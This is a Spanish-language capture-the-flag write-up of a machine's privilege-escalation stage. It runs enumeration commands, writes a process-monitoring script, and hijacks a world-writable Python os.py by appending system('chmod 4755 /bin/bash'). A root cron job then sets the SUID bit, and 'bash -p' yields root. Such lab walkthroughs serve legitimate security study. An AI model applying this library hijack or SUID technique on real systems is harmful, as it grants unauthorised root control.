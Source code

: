## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
uname -a
find \-perm -4000 2>/dev/null
```

No vemos nada interesante por aqui. Miramos si existen tareas que se ejecutan a interval regulares de tiempo.


```bash
cd /dev/shm/
nano procmon.sh


#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
    old_process=$new_process
done
```

Le damos derechos de ejecucion y lo lanzamos. Si esperamos un poco, podemos ver que hay una tarea que se ejecuta lanzando un script
en python.

```bash
ls -l /opt/server_admin/reporter.py
cat /opt/server_admin/reporter.py
```

Vemos que no lo podemos tocar.

#### Library Hijacking {-}

Vemos que el script no hace nada en concreto. Solo importa la libreria os y almacena dos variables y le hace un print.

1. Miramos el orden de busqueda del import de python

    ```bash
    python
    > import sys
    print sys.path
    ```

    Aqui vemos que busca primeramente en el directorio actual de trabajo y despues en `/usr/lib/python2.7/sys.py`

1. Miramos nuestros derechos en la carpeta `/usr/lib/python2.7`

    ```bash
    locate os.py
    ls -l /usr/lib/ | grep "python2.7"
    ```

    Vemos que tenemos todo los derechos en esta carpeta

1. Alteramos el fichero os.py

    ```bash
    cd /usr/lib/python2.7
    nano os.py
    ```

    Al final de este fichero, añadimos el comando siguiente

    ```python
    system("chmod 4755 /bin/bash")
    ```

1. Monitorizamos la /bin/bash

    ```bash
    watch -n 1 ls -l /bin/bash
    ```

Vemos que aparece un `s` en la /bin/bash

```bash
bash -p
whoami
#Output
root
cd /root
cat root.txt
```

Ya podemos leer el root.txt
